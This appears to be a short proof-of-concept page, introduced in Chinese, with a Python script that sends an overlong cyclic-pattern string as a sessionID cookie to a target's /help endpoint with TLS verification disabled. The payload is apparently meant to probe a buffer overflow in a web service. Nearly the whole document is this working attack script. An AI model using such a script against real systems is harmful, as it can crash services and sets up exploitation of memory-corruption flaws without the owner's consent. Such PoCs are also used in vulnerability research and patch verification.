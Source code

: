 POC如下：

```python
from pwn import *
import requests
import urllib3
import sys

url = sys.argv[1]

if url[-1:]=='/':
   url=url[:-1]

cmd="aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac"

payload = "sessionID="+cmd

urllib3.disable_warnings()

url= url+"/help"
head= {'Cookie':payload}
r=requests.get(url,headers=head,verify=False)

print(r)
print(r.text)
print(r.content)

```
